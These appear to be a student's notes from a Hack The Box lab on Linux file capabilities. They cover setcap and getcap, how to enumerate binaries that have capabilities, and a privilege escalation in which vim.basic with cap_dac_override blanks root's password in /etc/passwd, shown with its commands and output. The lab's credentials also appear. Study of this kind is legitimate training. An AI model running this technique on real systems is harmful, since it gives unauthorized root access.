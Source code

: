 
### Setting Capabilities

Done with the `setcap` command, `setcap` can be used to set capabilities for specific executables
```
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

### Values for the setcap command
![[setcap_values.png]]

### Capability Functions & Descriptions
![[cap.png]]
### Setcap Privilege Escalation
![[priv_esc.png]]

### Enumerating Capabilities
```
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

> - searchs for all binary executables in the directories where they are typically located 
> -  `-exec` flag to run the `getcap` command on each, showing the capabilities that have been set for that binary
> - output is a list of all binary executables on the system, along with the capabilities that have been set for each

### Exploiting Capabilities

Scenario: We've gained access and 1) we can execute /usr/bin/vim.basic without special privileges 2) discovered the `cap_dac_override` capability is set for the binary, vim.basic:
```
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Let's modify root's /etc/passwd file to allow us to `su` without a password:
```
/usr/bin/vim.basic /etc/passwd
```

Or in a non-interactive mode. After which you'll see the `x` , demarcing the password, is gone meaning you can su into root without the password :
```
datboyblu3@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
datboyblu3@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash`
```

----------------------------------------------------------
## Questions

 Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.

IP:
```
10.129.205.111
```

Username:
```
htb-student
```

Password:
```
HTB_@cademy_stdnt!
```

SSH
```
ssh htb-student@10.129.205.111
```

Listed all capabilities
```
getcap -r / 2>/dev/null
 
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_dac_override+eip
/snap/core20/1169/usr/bin/ping = cap_net_raw+ep
/snap/core20/1891/usr/bin/ping = cap_net_raw+ep
/snap/core22/750/usr/bin/ping = cap_net_raw+ep
/snap/core22/634/usr/bin/ping = cap_net_raw+ep

```

Just used the same exploit in the example above to gain root access.

To find and output the contents of the flag:
```
find / -type f -name flag.txt -exec cat {} \; 2>/dev/null
```